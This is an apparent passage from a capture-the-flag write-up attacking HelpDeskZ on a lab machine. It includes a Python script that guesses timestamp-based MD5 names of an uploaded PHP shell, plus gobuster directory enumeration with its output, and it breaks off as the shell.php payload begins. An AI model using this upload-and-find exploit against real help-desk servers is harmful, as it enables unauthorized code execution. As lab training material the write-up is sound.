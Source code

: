         currentTime = int(time.time())

        for x in range(0, 300):
            plaintext = fileName + str(currentTime - x)
            md5hash = hashlib.md5(plaintext).hexdigest()

            url = helpdeskzBaseUrl+md5hash+'.php'
            response = requests.head(url)
            if response.status_code == 200:
                print "found!"
                print url
                sys.exit(0)

        print "Sorry, I did not find anything"
        ```
      __NOTE(S)__:
      - It searches for your uploaded file.
      - A UNIX timestamp up to five minutes ago is checked.

   2. Find the ticketing service's upload directory:
      ```bash
      gobuster -u http://10.10.10.121/support -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt
      # /images (Status: 301)
      # /index.php (Status: 200)
      # /uploads (Status: 301)
      # /css (Status: 301)
      # /includes (Status: 301)
      # /js (Status: 301)

      gobuster -u http://10.10.10.121/support/uploads -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt
      # /index.php (Status: 302)
      # /articles (Status: 301)
      # /tickets (Status: 301)
      ```
   3. Exploit HelpDeskZ's ticketing service:
      1. Fill-up all the required fields
      2. Attach payload (__*shell.php*__):
         ```PHP
         <?php
